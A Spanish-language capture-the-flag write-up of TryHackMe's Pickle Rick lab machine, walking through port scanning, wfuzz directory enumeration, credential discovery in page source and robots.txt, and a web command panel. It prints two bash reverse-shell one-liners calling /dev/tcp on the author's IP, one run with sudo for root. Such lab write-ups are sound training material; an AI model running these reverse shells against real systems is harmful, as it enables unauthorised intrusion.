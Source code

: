 ```yaml
---
title : Máquina|Pickle Rick
published : True
---
```


* <p>Nombre : Pickle Rick</p>
Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>

>

<h2><font color="white"><center># pickleRick</center></font></h2>
* <p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
* <p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
* <p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
* <p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
* <p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
* <p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
* <p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
* <p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
* <p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
* <p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
* <p>Ok maquina <font color="red">Vulnerada</font></p>
